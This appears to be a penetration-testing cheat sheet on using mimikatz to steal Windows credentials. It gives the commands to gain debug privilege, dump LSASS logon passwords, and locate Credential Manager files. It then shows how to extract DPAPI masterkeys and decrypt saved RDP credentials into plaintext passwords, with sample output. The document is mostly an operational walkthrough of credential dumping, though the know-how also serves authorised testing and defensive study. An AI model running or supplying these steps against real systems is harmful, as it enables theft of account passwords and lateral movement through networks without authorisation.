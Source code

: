 # Mimikatz

The now very famous tool mimikatz can be among other things used to dump credentials, that is hashes and/or. The latest release of mimikatz can be found as a precompiled binary for Windows on gentilwiki's [Github page](https://github.com/gentilkiwi/mimikatz/releases).

**Important note about privilege** Running Mimikatz nearly always requires Administrative privileges, preferably NT SYSTEM to run correctly. The privilege module is able to elevate a user from Administrator to SYSTEM. [https://github.com/gentilkiwi/mimikatz/wiki/module-~-privilege](https://github.com/gentilkiwi/mimikatz/wiki/module-~-privilege)

```text
mimikatz # privilege::debug
Privilege '20' OK
```

## Dumping creds from lsass

```text
mimikatz # sekurlsa::logonpasswords
```

## DPAPI method

In certain scenarios like RDP jumpstations a user might find it useful to save RDP credentials locally in Windows to prevent having to retype passwords. A common scenario is a regular user with a separate admin privileged account that is used for RDP-ing into other boxes. The passwords are then stored in the Windows credential manager.

Credentials for the manager are usually stored in files in either of the following two directories. Use `dir /a` to check their contents. `C:\Users\username\AppData\Roaming\Microsoft\Credentials` `C:\Users\username\AppData\Local\Microsoft\Credentials`

If both are empty, then credentials are probably not saved in the credential manager.. The files are usually stored as 32 character all caps alphanumerical strings, so something like: `?`0DCF46D87F2DCE439DC47AA5F9267462\`.

Once you have the file name and path for the credential file, open up mimikatz and do.

`mimikatz dpapi::cred /in:C:\Users\username\AppData\Local\Microsoft\Credentials\0DCF46D87F2DCE439DC47AA5F9267462`

This will dump the credential blob which contains what we want to decrypt and the GUID for the masterkey which is required for decryption.

As SYSTEM, we can dump all masterkeys, the ! is very important here. `!sekurlsa::dpapi`

You should get a 129 character string as masterkey associated with the GUID you found in the previous step.

```text
GUID: {6515c6ef-60cd-4563-a3d5-3d70a6bc699}
masterkey: 76081ac6e809573b4dfa1a7a8eac3ae0106aa3f4d283fc3d6cf114a6285b582d4df53dc0e30b64c318e473bce49adabb73ad8cccd8bf4d7d10f44f4d4e48cf04
```

Proceed by using the masterkey to decrypt the credentials. `dpapi::cred /in:C:\Users\username\AppData\Local\Microsoft\Credentials\0DCF46D87F2DCE439DC47AA5F9267462/masterkey:76081ac6e809573b4dfa1a7a8eac3ae0106aa3f4d283fc3d6cf114a6285b582d4df53dc0e30b64c318e473bce49adabb73ad8cccd8bf4d7d10f44f4d4e48cf04`

The username and plaintext password should be printed.

```text
UserName       : LAN\username_adm
CredentialBlob : Sup3rAw3s0m3Passw0rd!
```

Use `vault::list` to figure out what boxes the credentials belong to. Often they are to specific servers.

**Useful links** [https://github.com/gentilkiwi/mimikatz/wiki/module-~-dpapi](https://github.com/gentilkiwi/mimikatz/wiki/module-~-dpapi) [https://github.com/gentilkiwi/mimikatz/wiki/howto-~-credential-manager-saved-credentials](https://github.com/gentilkiwi/mimikatz/wiki/howto-~-credential-manager-saved-credentials) [https://rastamouse.me/2017/08/jumping-network-segregation-with-rdp/](https://rastamouse.me/2017/08/jumping-network-segregation-with-rdp/)

